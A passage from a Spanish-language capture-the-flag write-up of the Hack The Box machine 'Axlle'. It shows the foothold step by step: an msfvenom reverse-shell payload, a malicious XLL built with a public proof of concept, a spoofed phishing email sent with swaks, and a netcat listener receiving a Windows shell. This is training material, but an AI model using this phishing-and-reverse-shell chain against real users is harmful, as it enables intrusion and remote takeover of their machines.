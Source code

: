 Aunque no nos llega ninguna respuesta.
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

```

Haciendo alusión al nombre de la máquina, quizás pueda mandar un archivo XLL a la víctima.

Y aquí la cabeza me hizo click cuando leí el siguiente mensaje en la página principal.
`If you have any outstanding invoices or requests, please email them to accounts@axlle.htb in Excel format. Please note that all macros are disabled due to our security posture. ` y además vi que la imagen de la máquina es un pescador (phising).

Voy a probar a mandar un Excel XLL malicioso como archivo a través de `swaks` a la cuenta `accounts@axlle.htb`

# Foothold -> Creating Malicious XLL File

Primero tenemos que generar nuestro payload en formato binario. Importante que sea para una arquitectura de 64 bits.
```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f raw -o shell.bin
```

Tras investigar, encontramos varios PoC para generar archivos XLL maliciosos, uno de ellos me funcionó.
[PoC](https://github.com/zimnyaa/xyrella)
[Post Explicativo](https://tishina.in/initial-access/xll-delivery)

Necesitamos instalar Nim, MinGW, Python y algunas dependencias de Nim

```cmd
nimble install ptr_math
nimble install winim
nimble install nimcrypto
```

Una vez teniendo todo eso, podemos generar nuestro archivo XLL malicioso.
```cmd
python build.py -e -o shell -s .\shell.bin
```

Y ahora nos ponemos en escucha con `netcat` por el puerto 443.

Y enviamos un correo a la cuenta de correo electrónico anteriormente encontrada adjuntando el archivo xll malicioso que hemos creado.

```shell
$ swaks --from administrator@axlle.htb --to accounts@axlle.htb --server 10.129.253.213 --port 25 --header 'Excel file' --body 'Here is your excel file' --attach @shell.xll
```

```cmd
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.253.213] 62180
Microsoft Windows [Version 10.0.20348.2527]
(c) Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
axlle\gideon.hamill
```
